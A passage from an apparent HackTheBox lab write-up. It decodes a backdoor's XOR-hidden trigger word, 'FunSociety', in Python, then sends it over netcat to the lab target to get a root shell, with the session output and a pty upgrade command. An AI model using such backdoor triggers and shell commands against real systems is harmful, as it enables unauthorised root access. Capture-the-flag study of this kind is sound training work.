 ![](/img/darkarmy.png)

This loop takes two strings and xors their first 10 characters, which
looks like this in python:



    >>> a = 'HackTheBox'
    >>> b = '\x0E\x14\x0d\x38\x3b\x0b\x0c\x27\x1b\x01'
    >>> [chr(ord(x) ^ ord(y))  for x,y in zip(a,b)]
    ['F', 'u', 'n', 'S', 'o', 'c', 'i', 'e', 't', 'y']



And that string gets a root shell:



    root@kali# nc 10.10.10.80 80
    get FunSociety
    rootme-0.5 DarkArmy Edition Ready
    id
    uid=0(root) gid=0(root) groups=0(root)
    python3 -c 'import pty;pty.spawn("bash")'
    root@ubuntu:/#



### root.txt
